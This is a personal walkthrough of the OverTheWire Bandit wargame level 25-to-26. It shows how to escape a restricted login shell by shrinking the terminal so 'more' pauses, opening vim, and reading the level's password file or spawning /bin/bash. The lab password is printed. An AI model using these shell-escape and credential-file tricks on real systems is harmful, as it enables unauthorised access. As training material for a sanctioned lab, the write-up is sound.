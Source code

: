 in the name of GOD


bandit25@bandit:~$ ls
bandit26.sshkey

bandit25@bandit:~$ exit

scp -P 2220 bandit25@bandit.labs.overthewire.org:bandit26.sshkey /home/crow/

ssh -i bandit26.sshkey bandit26@bandit.labs.overthewire.org -p 2220
.
.
.
connection closed.
##### so the shell close the connection,to know what shell is the default for a user, can be found at the ‘/etc/passwd/"user"’ file. example:
cat passwd | grep crow                                           
crow:x:1000:1000:Crow,,,:/home/crow:/usr/bin/zsh


bandit25@bandit:~$ cat /etc/passwd | grep bandit 26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext

bandit25@bandit:~$ cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

more ~/text.txt
exit 0

#### so we are stuck in more, and connection closes because the txt(bandit26 ascii banner) in text.txt is short and more does not go into interactive mode, it reads the txt and closes the connection imideatly

#### so we must minimize the terminal window to the point that makes more go into interactive mode and dont close the connection.


ssh -i bandit26.sshkey bandit26@bandit.labs.overthewire.org -p 2220
###### with minimized terminal window we run this comman and go into interactive mode of more, and we see something like this:
  _                     _ _ _   ___   __
 | |                   | (_) | |__ \ / /
 | |__   __ _ _ __   __| |_| |_   ) / /_
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \
--More--(66%)

##### then we press "v" to go into vim, and with ":e" command we can "e=Edit another file" — it closes the current buffer and opens a new file.

(in vim) :e /etc/bandit_pass/bandit26
s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ


##### OR we can get a shell from vim

(in vim) :set shell=/bin/bash

(in vim) :shell

##### This launches a full interactive shell

bandit26@bandit:~$ cat /etc/bandit_pass/bandit26
s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ

